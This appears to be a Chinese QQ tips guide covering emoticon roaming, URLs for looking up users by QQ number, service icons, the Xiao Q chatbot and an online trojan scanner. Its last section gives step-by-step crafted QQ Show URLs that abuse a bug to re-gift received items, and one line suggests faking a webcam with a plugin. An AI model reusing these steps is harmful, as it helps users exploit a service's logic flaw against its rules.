



#### （5）会员表情漫游

自动上传：对已设置自动漫游的分组，该组表情及以后添加到该组的表情都将自动上传到服务器。  

自动下载：对已设置自动漫游的分组，当我们更换电脑登录QQ后，系统将自动为我们下载已上传过的表情，无论何时何地我们都可以轻松使用喜欢的表情。  

上传规则：会员用户可以选择任意喜欢的分组设置为漫游组，每个等级用户对应不同的上传表情总数（所有分组上传过的图片数总和）。

| VIP等级 | VIP1 | VIP2 | VIP3 | VIP4 | VIP5 | VIP6 |
|---|---:|---:|---:|---:|---:|---:|
| 上传总数 | 100 | 200 | 400 | 600 | 800 | 1000张 |

注意：  
1、为了保证我们的下载速度，单个分组最多可以传400张图片，并且每个图片大小在50K以内以保证图片效果。  
2、所有用户总共可设置8个分组。

QQ会员服务过期后，系统将为我们保存表情漫游数据1个月，1个月内重新开通会员将自动恢复漫游图片。使用表情漫游功能，将不会担心自己珍藏的图片因为更换电脑而消失。无论到了哪里，都有你的表情与你时刻相伴，只是倘若你不是会员的话，可就与此功能无缘了。


## QQ信息查询

想必大家都使用过很多QQ信息查询工具，其实使用一些网站也可以非常容易地进行查询。下面就为大家介绍一些常用的查询网站。



#### 一、QQ音速成绩查询（图1）

- 广东电信：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=209&iUin=QQ号码
- 上海电信：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=210&iUin=QQ号码
- 华北一区（网通）：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=211&iUin=QQ号码
- 华中电信一区（原湖南）：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=214&iUin=QQ号码
- 华东电信一区：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=213&iUin=QQ号码
- 东北网通一区：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=212&iUin=QQ号码
- 华南电信一区：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=215&iUin=QQ号码
- 西南电信一区：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=216&iUin=QQ号码
- 西北电信一区：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=218&iUin=QQ号码

### 二、QQ财富及红黄蓝钻的开通情况（图2）

```
http://qqshow.qq.com/cgi-bin/qqshow_user_info?uin=QQ号码
```

#### 三、QQ交友中心详细原始资料（图3）

```
http://bbs.qq.com/cgi-bin/bbs/friend/user_info_show?ln=QQ号码
```

#### 四、在线状态（图4）

```
http://wpa.qq.com/pa?p=1:QQ号码:4
```


## 五、QQ游戏大厅积分查询（注：查询游戏积分时需要登录）（图5）

http://game-web.qq.com/cgi-bin/game_queryuser_score?queryuin=QQ号码



http://photo.qq.com/jump.htm?ownerid=QQ号码

- 7、群空间  
http://group.qq.com/group_index.shtml?funcid=8&groupid=群号

下面为一些快速访问的链接：

- 1、访问Q-zone  
http://q-zone.qq.com/client/?uin=QQ号码
- 2、QQ书签  
http://shuqian.qq.com/QQ号码
- 3、QQ播客  
http://video.qq.com/userinfo.htm?u=QQ号码
- 4、QQ拍拍  
http://shop.paipai.com/QQ号码
- 5、Q歌Q魅  
http://qgqm.qq.com/template/user_index.html?qq=QQ号码
- 6、QQ相册

下面为账号相关信息：

- 1、申请QQ密码保护  
http://service.qq.com/psw/mo.shtml?psw_id.htm
- 2、修改QQ密码保护资料  
http://service.qq.com/psw/mo.shtml?psw_mdf.htm
- 3、重设QQ密码  
http://service.qq.com/psw/mo.shtml?psw_cs.htm
- 4、申诉QQ号码  
http://service.qq.com/psw/mo.shtml?psw_ss.htm
- 5、查询QQ号码申诉公告  
http://service.qq.com/cgi-bin/announce

## 一手掌握QQ业务

QQ上一连串的业务总是会令人心动不已，看到别人开通那么多的业务，你是否羡慕过呢？有些业务还会提高自己在好友中的排名呢！那好，下面我们就来看看所有的QQ业务，然后把所有免费的点亮吧！

- 3D秀用户：登录 http://www.icoke.cn 进行注册，然后绑定QQ，使用积分买来3D QQ秀，保存一下就OK了。  
QQ空间：登录 http://q-zone.qq.com/web/，开通后就可以了。  
QQ交友：登录 http://love.qq.com，注册一下你的个人资料就会显示了。  
QQ家园：登录 http://home.qq.com，摆几件免费的家具并保存就有显示了。  
QQ相册：登录 http://photo.qq.com，创建相册并上传图片就有显示了。  
QQ拍拍：登录 http://www.paipai.com，需要把自己的资料包括身份证弄上去（绑定手机可直接使用手机开通），然后才能正常显示。  
手机绑定：需要使用手机，进入绑定页面，用手机接收一个验证码就可以了，不收费的。

- QQ幻想以及QQ堂：登录游戏玩一下就能点亮了。  
QQ音速：需要使用2个音速种子在官方页面开通，种子可以叫你的好友送你。  
QQTalk：登录 http://im.qq.com/qqtalk/，前段时间不能开通，现在我们只要下载软件并用我们的QQ登录，图标就能亮了。  
QQ书签：登录 http://shuqian.qq.com，收藏10个网址就能点亮（需要公开）。  
QQLive：使用QQ登录QQLive并挂满140小时（一个月亮）就能点亮。  
QQ超级旋风：积分满1500就能点亮，下载一个是2分，每天的上限是50分（下载网页很快哟，在任意网页上使用右键中的超级旋风进行下载全部链接，很快的），另外只要你把超级旋风开着，每小时是2分，并且没有上限。  
QQ三国：登录三国，你的角色满20级，图标就会亮了（此游戏很难练）。  
QQ播客：登录 http://video.qq.com，上传一个视频就能开通了。  
QQ华夏2：进入网站 http://user.huaxia2.com/Register.aspx，申请华夏2的账号，然后进入 http://user.huaxia2.com/BindUser.aspx?BindType=HX2BindQQ，与QQ号绑定。  
QQ问问：提一个问题就能点亮图标（现在的腾讯TM有些问题，只有5%的9位数QQ才能看见这个图标）。  
QQ邮箱：进入你的QQ邮箱，里面有个设置，勾一下显示图标就可以了。  
QQ歌Q魅：登录 http://qgqm.qq.com，现在已经暂停开通了，以前只要登录下就能点亮图标。  
QQ手机腾讯用户：只有使用手机上线才能点亮，这业务不是永久开通的。  
财付通用户：登录 https://www.tenpay.com，注册成功即可点亮。  
Q吧用户：活跃天数达到32天（在线等级4，对应等级“芽苗”）就可以点亮。另外，Q吧的帖子除非精华，否则单纯的发表或回复都是没有积分的。影响Q吧等级的唯一因素就是“活跃天”，而活跃天的影响因素就是每天在Q吧停留的时间和停留时间内浏览帖子的活跃程度。  
QQ飞行岛：暂时无法点亮。  
QQ对战平台：暂时不能点亮。  
视频用户：电脑连接摄像头的时候登录就会点亮，如果没有，可以使用珊瑚虫外挂打造假摄像头。  
TM图标：只有在使用TM客户端登录时才有这个图标。  
皇冠（特殊客户端图标）：只在手机登录移动QQ时才显示的。

以下是一些需要花钱开通的服务。

- 移动QQ：登录 http://mobile.qq.com/，移动用户是5.0元/月，联通用户是4.5元/月。
- 短信超人：登录 http://super.qq.com/，费用是10元/月。
- 手机腾讯网：使用手机上TX网就会有，不上就没有图标。
- 黄色手机移动QQ：一个月10元，少不了的。
- 钻石手机QQ短信超人：也要绑定的，一个月12元还不包括通信费。
- QQ图书：就是原来的网络杂志，5元包月。
- QQ炫铃：会员可以免费使用，普通的用户需要包月才行。
- QQ会员：一个月为10Q币。
- QQ黄钻：一月10元，用于QQ空间的装扮。
- QQ红钻：一月10元，QQ秀方面有特权。
- QQ紫钻：一月10元，在QQ堂游戏里有特权。
- QQ蓝钻：一月10元，QQ游戏贵族，在斗地主等里面有特权。
- QQ绿钻：一月10元，新版之前的音乐VIP代替图标，10元包月网络杂志，QQ会员VIP4的可以享受半年免费。
- QQ粉钻：一月10元，用来养QQ宠物用的。

#### 聊天机器人小Q

QQ机器人是腾讯公司陆续推出的人工智能聊天机器人的总称，目前已经推出小Q妹妹来陪大家聊天，她的QQ号是615050000。可以像加好友一样把小Q妹妹加为自己的好友，这样就可以和她聊天了（图1、图2）。

小Q妹妹聪明好学，你可以教她说话，也可以请她帮忙查询邮编、手机号或者成语解释、成语翻译等等，具体方法如下：

#### 知识学习

对其教育，发送“问：问题 答：答案”或“Q:问题 A:答案”。

#### 实用工具

- 1. 成语解释，发送 cyjs+成语。
- 2. 成语翻译，发送 cyfy+成语。
- 3. 邮编查询，发送 yb+邮编号或区号或地名。
- 4. 手机查询，发送 sj+手机号。
- 5、计算器，发送 `jsq + 算式`。
- 6、成语接龙，发送 `jl + 成语`。
- 7、天气预报，发送 `tq + 城市名`。
- 8、笑话世界，来一个。

提示：输入相应的编号也可直接进入相应模式。

免责声明：小Q部分回答的内容来自于网友的教育，不代表腾讯公司赞成其观点和立场。使用“实用工具”查询确实十分方便，如图3。

由此可见，小Q还是一个不错的聊天伴侣。同时和小Q聊天能得到积分，小Q送给你的积分表示了你对小Q的关爱程度，聊天次数（1分/次），有效对话教育（10分/条）。






#### 小Q用户等级说明

- 第一级：形同陌路
- 第二级：交情甚浅
- 第三级：缘分天空
- 第四级：相见恨晚
- 第五级：狐朋狗友
- 第六级：死党老友
- 第七级：朝夕相处
- 第八级：桃园结义
- 第九级：断头之交
- 第十级：前世今生

注意，小Q的问题回答都来自于网络，希望大家多教她一些文明的话语，共同维护一个良好的交流环境！

## 在线杀马好助手

对于QQ木马相信大家都曾经遇到过，如今的木马在网上泛滥使人防不胜防，但是为了我们心爱的QQ号码，我们还是要注意安全！

QQ医生是针对QQ木马的得力助手，但是如果我们是在网吧、图书馆等公共场所进行登录，那要怎么做呢？下面为大家推荐 `http://safe.qq.com/tso`。QQ医生在线版与QQ医生具有相同的查杀木马的能力。

当我们在公共场所使用电脑登录QQ，如果该电脑上没有安装QQ医生的话，请务必使用QQ医生在线版进行检查后再进行登录。该服务将能有效地扫描及清除盗取QQ密码的木马病毒、扫描和清除QQ盗号木马、扫描被盗号木马利用的系统漏洞并安装补丁。

首先登录 `http://safe.qq.com/tso`（图1），点击“开始”即可进入杀毒状态（图2），点击“开始检查”，检测就会开始了（图3）。稍等一会儿，就会看到如图4所示的扫描结果了，会同时显示出木马以及系统漏洞，然后进行修复就可以了。

此工具不能替代杀病毒软件，要保护我们的计算机，还请使用杀病毒软件进行彻底的安全检查和防护。在线杀马只是应急措施，不能完全依赖。为了更好地保护QQ号码，更要注意QQ的安全公告，相隔一段时间可以登录 `http://safe.qq.com/affiche/` 查看一下官方的安全公告，并及时做出相应的措施。









#### 获赠的QQ秀继续赠送

记得以前QQ曾经出现过这样的失误，导致获赠的QQ秀可以继续赠送，不过如今再次出现了这样的漏洞，下面我们就来看一下吧。

比如图1中的物品为获赠的，下面我就要把它再送出去。在“删除”上面点击右键选择“复制快捷方式”，把结果粘贴在一个文本上。

```javascript
javascript:delMyQQShowItem(2527920,37115,0,"http://qqshow.qq.com/my/inc/m_m01_01.shtml?nowpage=2")
```

从这里可以发现物品对应的代码为2527920和37115，我们把2527920记为B，把37115记为A。下面修改如下网址，使用获赠物品的代码替换原代码。

```text
http://qqshow.qq.com/cgi-bin/qqshow_user_opensendwin?itemno=A&itemid=B&url=http%3A//qqshow.qq.com/my/inc/m_m01_01.shtml%3Fnowpage%...
```

```text
http://qqshow.qq.com/cgi-bin/qqshow_user_opensendwin?itemno=37115&itemid=2527920&url=http%3A//qqshow.qq.com/my/inc/m_m01_01.shtml%3Fnowpage%...
```

注意对应关系，删除链接中的代码和网址中的代码顺序相反。把修改好的网址复制到地址栏，回车（有时回车后需要登录一遍QQ），然后会出现图2所示的画面，填写受赠人的号码即可赠送。赠送人赠送成功，如图3，而受赠人也接受成功，如图4。



